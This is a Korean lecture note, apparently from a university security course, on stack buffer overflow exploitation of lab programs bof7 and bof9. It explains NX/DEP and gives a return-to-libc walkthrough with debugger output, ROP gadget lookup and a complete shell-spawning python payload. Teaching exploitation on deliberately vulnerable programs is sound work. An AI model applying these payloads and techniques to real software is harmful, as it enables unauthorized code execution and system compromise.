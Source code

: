 # 익스플로잇(3)

## bof7 논란

**__일단 bof7 자체에는 아무런 오류도 없었음.__**

### 사전 지식 : 전달되는 `main` 함수 인자의 길이에 따라서 `buf` 의 주소값이 달라진다. 

![addr](addr.PNG)

왜 달라질까? 다음과 같은 간단한 C 프로그램으로 테스트를 해보자. 

```c
#include <stdio.h>
#include <stdlib.h>

#define RED     "\033[31m"
#define GREEN   "\033[32m"
#define BLUE    "\033[34;1m"
#define RESET   "\033[0m"

int main(int argc, char * argv[]){
    if (argc < 2) {
        fputs(RED "Please pass some arguments...\n" RESET , stderr);
        return 1;
    }
    int stack = 78;
    int stack2 = 23;
    char * environment_variable = getenv("PATH");

    printf( GREEN "Stack section " RESET " : " BLUE "%p\n", &stack);
    printf( GREEN "              " RESET " : " BLUE "%p\n", &stack2);
    printf( GREEN "Main arg-argc " RESET " : " BLUE "%p\n", &argc);
    printf( GREEN "     arg-argv " RESET " : " BLUE "%p\n", argv);
    printf( GREEN "     argv[1]  " RESET " : " BLUE "%p\n", argv[1]);
    printf( GREEN "Environment   " RESET " : " BLUE "%p\n", environment_variable);
    printf(RESET "All of these are Virtual Address\n\n");
    return 0;
}
```

테스트는 각각 짧은 인자를 전달할 경우, 긴 인자를 전달할 경우 스택의 주소값이 어떻게 바뀌는지 관찰하는 것으로 진행하자. 그 결과는 다음과 같았다. 

![result](result.PNG)

인자를 `a` 만 전달했을 경우 `argv[1]` 의 주소값은 `0x7fffffffe75a` 이고 스택 영역의 두 변수의 주소값은 각각 `0x7fffffffe3b0` 과 `0x7fffffffe3b4` 였다.

그런데 인자를 `aaaaaaaaaaaaaa` 로 좀 더 많이 전달했을 때 `argv[1]` 의 주소값은 `0x7fffffffe74e` 이고 스택 영역의 두 변수의 주소값은 각각 `0x7fffffffe3a0` 과 `0x7fffffffe3a4` 가 되었다. 

즉 `main` 함수에 전달된 인자가 길 경우 `argv[1]` 의 주소값과 스택영역의 주소들이 좀 더 밑으로 내려 온다. 프로세스에 할당되는 메모리 구조를 다시 떠올려보자. 

![process mem](https://notes.shichao.io/tlpi/figure_6-1.png)

`main` 함수에 할당되는 인자는 위 그림에서 스택 바로 위쪽에 있는 `argv` 의 위치에 들어가는데 인자가 클 경우 메모리를 좀 더 사용해서 스택 영역을 더 밑으로 내려가게 만든다고 볼 수 있다. 

### bof7 의 buf 의 주소값이 인자의 길이에 따라 달라진다 

![bof7arg](bof7arg.PNG)

위와 같이 인자로 `a` 를 10 개 전달했을 때와 `a` 를 20 개 전달했을 때 `buf` 의 주소값이 각각 `0x7fffffffe490` 과 `0x7fffffffe480` 으로 달라진다. 이제는 그 이유를 이해할 수 있다. 인자가 더 길 경우에 스택 영역이 메모리에서 더 밑으로 위치하기 때문에 메모리 주소값이 더 낮아진다. 

그런데 우리는 `buf` 와 `return address` 까지의 거리가 **136** 이라는 것을 이미 알아냈고 그 이후에 **8** 바이트 주소값을 덮어써야 하는 상황이다. 그러므로 결론적으로 bof7 을 익스플로잇 하기 위하여 전달해야 할 인자의 길이는 **144** 바이트이다. 따라서 먼저 **144** 바이트 인자를 전달해 보고 그때 당시의 `buf` 의 주소값을 알아내야 한다. 

![bof7144](bof7144.PNG)

그러면 위와 같이 `buf` 의 주소값이 `0x7fffffffe410` 이라는 것을 알 수 있다. 즉 인자의 길이가 **144 바이트 일 때** `buf` 의 주소가 그렇게 위치한다는 것이다. 따라서 이 주소로 리턴 어드레스를 덮어써야 한다. 

### 익스플로잇

페이로드를 생각해보면 다음과 같이 될 것이다. 

| 쉘 코드 | 쓰레기 값 | 리턴 어드레스 | **총** |
|:----------:|:------:|:----:|:-----:|
| 27 바이트| 109 바이트 | 8 바이트   | **144 바이트** |

그렇게 페이로드를 설정하고 익스플로잇을 시도해보자. 

![exp](exp.PNG)

먼저 위와 같이 **144** 바이트를 때려 넣어서 인자가 **144** 바이트일 때 `buf` 의 주소값을 확인하다. 그러고 나서 `쉘 코드 + 쓰레기 값 + 리턴 주소값` 으로 익스플로잇을 시도하는데 이때의 리턴 주소값은 방금 확인한 `buf` 의 주소값으로 설정하면 된다. 

## NX bit 또는 DEP

우리는 지금까지 실행권한이 있는 스택에서 쉘 코드를 삽입하여 BOF 로 해킹을 해보았다. 하지만 현대의 대부분의 프로그램은 스택에서 실행권한을 제거한다.  

```c
#include <unistd.h>

int main(void){
    pause();
    return 0;
}
```

위와 같은 매우 간단한 C 프로그램을 만들고 종료되지 않도록 pause() 함수를 사용해보자. 

```shell
gcc test.c
./a.out
```

그리고 컴파일 한 후 실행하자. 

```shell
ps -ef | grep a.out
cat /proc/2464/maps
```

프로세스 번호를 확인하고, 만약 PID 가 2464 라면, 위와 같이 메모리 매핑을 확인하자. 

```shell
555555554000-555555555000 r-xp 00000000 ca:01 256165                     /home/ubuntu/a.out
555555754000-555555755000 r--p 00000000 ca:01 256165                     /home/ubuntu/a.out
555555755000-555555756000 rw-p 00001000 ca:01 256165                     /home/ubuntu/a.out
...
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

그러면 위와 같이 [stack] 의 권한이 `rw-p` 라고 되어있는 것을 볼 수 있다. 반면 가장 낮은 주소에 있는 text 섹션에는 `r-xp` 의 권한이 부여되었다. 스택 영역에는 읽기(`r`) 권한과 쓰기(`w`) 권한만 있는데 비해 실행될 어셈블리어들이 저장되는 텍스트 섹션에는 읽기(`r`) 권한과 실행(`x`) 권한만 존재한다. 

지금까지 BOF 를 연습했었던 프로그램은 `gcc` 에 특수한 옵션(`z execstack`)으로 컴파일해서 스택에 실행권한을 부여했었던 프로그램들이다. 하지만 보통의 프로그램들은 해커들이 스택에 쉘 코드를 삽입해서 해킹을 할 수도 있기 때문에 실행권한이 필요없는 스택 영역에는 실행권한을 제거한다. 

이렇게 실행권한이 제거된 메모리를 절대 실행되지 않는다는 의미로 Never eXecution 한다고 해서 NX 비트라고 한다. 그리고 이 NX 를 윈도우 운영체제에서는 DEP (Data Execution Prevention) 라고 부른다. 이제부터 이 NX 비트를 우회해서 프로그램을 해킹해보자. 

## RTL (Return to Libc)

https://www.lazenca.net/display/TEC/02.RTL%28Return+to+Libc%29+-+x64

## bof9.c 

1. 버퍼와 리턴 어드레스까지의 거리를 구한다. 

    ```shell
    pwndbg> i r rsp      # AT STARTING VULN FUNCTION
         rsp : 0x7fffffffe628
    pwndbg> nextcall     # UNTIL gets FUNCTION
    pwndbg> i r rdi      # CHECK FIRST ARGUMENT of gets FUNCTION
         rdi : 0x7fffffffe610
    pwndbg> p/d 0x7fffffffe628 - 0x7fffffffe610
         $2 = 24
    ```

2. `system` 함수의 주소값을 찾는다.
    
    ```shell
    pwndbg> p system
         $1 = ... 0x7ffff7a52390 <__libc_system>
    ```
3. `/bin/sh` 문자열의 주소값을 찾는다.

    ```shell
    pwndbg> search /bin/sh
         libc-2.23.so    0x7ffff7b99d57 /* '/bin/sh' */
    ```

4. `pop rdi ; ret` 가젯의 주소값을 찾는다.

    ```shell
    $ ldd bof9           # CHECK library used by bof9
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
         0x0000000000021102 : pop rdi ; ret

    pwndbg> vmmap
        0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    pwndbg> p/x 0x0000000000021102 + 0x7ffff7a0d000
        $1 = 0x7ffff7a2e102
    ```

5. payload 를 다음과 같이 제작한다.

    `'A' * (버퍼와 리턴 어드레스까지의 거리)[N 바이트] + (pop rdi ; ret 가젯의 주소)[8 바이트] + (/bin/sh 문자열 주소)[8 바이트] + (system 함수의 주소)[8 바이트]`
    
    ```shell
    payload : [dummy (24)] + ["pop rdi ; ret" (8)] + ["/bin/sh" (8)] + [system (8)]
            $ (python -c "print 'x'*24+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
    ```

---

## 과제 

### 과제 가이드 

1. [HW-8.md](HW-8/HW-8.md) 파일의 지시를 따르는 것이 과제이다. (발표를 하며 설명을 할 수 있어야 합니다)

2. 과제 파일은 [HW-8](HW-8) 디렉토리에 만들어야 한다. 

3. 과제 파일이 완성되면 다음 명령어를 참고하여 완성된 과제를 푸쉬한다. 

```shell
cd /path/to/security
git add .
git commit -m "complete HW-8"
git push -u origin master
```

4. 마지막으로 `pull requests` 를 한다. 

